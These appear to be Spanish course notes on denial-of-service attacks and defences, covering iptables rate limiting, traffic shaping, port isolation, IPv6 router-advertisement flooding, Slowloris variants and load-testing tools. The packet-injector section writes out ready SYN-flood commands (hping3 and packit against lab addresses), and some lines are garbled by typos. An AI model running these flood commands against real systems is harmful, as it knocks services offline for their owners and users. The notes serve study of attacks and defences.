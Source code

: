 [[Tema 5-DoS]]

## Regla de firewalls
+ iptables -A input -p tcp --dport 80 -m hashlimit ... http -j ACCEPT
+ iptables -A input -p tcp --dport 22 -m hashlimit --hash-limit-mode srcip ... --contract --cstate NEW -j ACCEPT

## Trafic shaping y packet shaping
Están vinculados a QoS. Permiten aguantar mejor los ataques DDoS. También se suelen usar reverse proxys para ello. Funcionan de forma que para que las máquinas que entran a los servidores web de una organización desde internet tengan que pasar por ellos.

## SMTP
Los sistemas de ficheros se pueden montar de muchísimas formas. Pasa lo mismo con los sistemas en el correo electrónico. Por ejemplo:
+ Maildir: miles de ficheros pequeños
+ Mailbox: cada uno tiene su correo en un fichero

## Pruebas de carga o estrés
Algunas herramientas para hacer pruebas de carga contra servidores  web. Por ejemplo:
+ jMeter
+ Apache Bench (ab)

## Private LAN y port isolation
Se hace con las DMZ. Se configura en ellas el port isolation, es decir, que máquinas no tengan conectividad con otras máquinas. Evita, por ejemplo, el pivoting. 

## Inyectores de paquetes
Por ejemplo, un floodeo SYN:
+ packit -b 0 -c 0 -sR -d 10.11.49.49 -F s -S 1000 -O 80 # Se puede jugar con la flag -S para que el firewall deje pasar las salidas a ese puerto
+ hping3 -S -p 80 --flood --rand-source 10.11.49.49
+ hping3 -S 10.11.48.100 -a 10.11.48.100 ...  # LAN atack, la ip origen y destino es la misma. Se autoinunda, pero ya no funciona en los kernel actuales.

## IPV6
En ipv6 tenemos NDP y SNDP (con PKI). El protocolo SLAAK es lo que utiliza ipv6 para dar ipv6. 
+ fake_roter6 # envía paquetes RA a todas las máquinas para que estén continuamente reconfigurando las ipv6 de link-local.

Podemos regular las cuotas en /proc/sys/net/ipv6 o en systemctl.conf

## HTML
```
<meta httrequiv="refresh" contente="3">
<iframe src="http://in- with="0"></iframe>
```

Hoy en día los servidores suelen cortar los iframes. Algunas técnicas son framekiller, framebuster...

## Slowloris
Abren muchas conexiones con cabeceras sin rotorno de línea. Esto ralentiza la conexión.

Otro modo es el slow POST. Hace peticiones muy lentas y envía poco a poco las cosas para ralentizar las conexiones.

Otro modo es el slow READ. Hace algo de forma similar con peticiones GET.

Herramienta de denegación de servicio https (thc hacker choice). Otra es Tor shammer, que hace ataques POST pero a través de la red Tor. Ven las IP del exit node Tor.